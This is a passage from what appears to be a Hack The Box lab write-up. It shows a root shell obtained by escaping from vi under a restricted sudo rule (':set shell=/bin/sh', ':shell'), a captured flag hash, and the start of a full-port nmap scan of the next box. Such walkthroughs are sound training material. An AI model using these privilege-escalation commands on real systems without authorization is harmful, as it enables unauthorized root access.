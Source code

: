     We would like to create a **root shell** by using vi **method (b)** (*method (a) does not gaurantee*)

    ```bash
    # Method (a)
    sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf -c ':!/bin/sh' /dev/null
    ```

    > We are unable to execute the following command because sudo is restricted to only /bin/vi
    > /etc/postgresql/11/main/pg_hba.conf

    ```bash
    # Method (b)
    sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
    # in vi editor
    :set shell=/bin/sh
    :shell
    ```

18. The flag is in **/root/root.txt** (*dd6e058e814260bc70e9bbdef2715849*)

    ![](../assets/img/htb-starting-point/52.png)

# 2.4 Unified

1. namp scan, we have got **22, 6789, 8080, 8443, 8843, 8880** ports opened, which are **22 SSH, 6789 ibm-db2-admin, 8080 http-proxy, 8443 ssl/nagios-nsca Nagios NSCA, 8843 ssl/unknown, 8880 cddbp-alt**

   ```bash
   nmap -sCV {Target_IP} -p-
   ```
